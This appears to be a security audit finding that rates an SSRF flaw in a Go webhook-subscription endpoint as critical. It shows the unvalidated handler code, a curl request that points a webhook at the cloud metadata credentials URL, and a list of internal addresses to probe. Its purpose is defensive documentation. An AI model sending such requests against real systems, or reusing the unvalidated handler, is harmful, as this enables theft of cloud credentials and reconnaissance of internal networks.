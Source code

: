 
### API7:2023 - Server-Side Request Forgery (SSRF)

**Score**: 0.0/10
**CVSS**: 9.1 CRITICAL
**Priority**: P0 CRITICAL

**Discovery**:
```bash
# Check webhook URL validation
grep -r "webhook.*url\|URL.*string" internal/application/webhook/
# Result: NO URL validation found
```

**Affected Endpoint**: `POST /api/v1/webhook-subscriptions`

**Vulnerable Code**:
```go
// ❌ VULNERABLE: No URL validation
func (h *WebhookSubscriptionHandler) CreateWebhook(c *gin.Context) {
    var req CreateWebhookRequest
    c.ShouldBindJSON(&req)

    // ❌ NO VALIDATION: Accepts ANY URL (including private IPs)
    dto := webhookapp.CreateWebhookDTO{
        URL: req.URL,  // ❌ Attacker-controlled
        // ...
    }

    result, _ := h.useCase.CreateWebhook(c.Request.Context(), dto)
    c.JSON(201, result)
}
```

**Attack Scenarios**:

1. **Cloud Metadata Access**:
```bash
curl -X POST https://api.example.com/api/v1/webhook-subscriptions \
  -H "Content-Type: application/json" \
  -d '{
    "name": "Attack",
    "url": "http://169.254.169.254/latest/meta-data/iam/security-credentials/",
    "events": ["message"]
  }'
# Server fetches AWS credentials and sends to attacker
```

2. **Internal Services Scan**:
```bash
# Probe internal network
"url": "http://10.0.0.1:5432/"      # PostgreSQL
"url": "http://10.0.0.2:6379/"      # Redis
"url": "http://localhost:8080/"     # Internal API
```
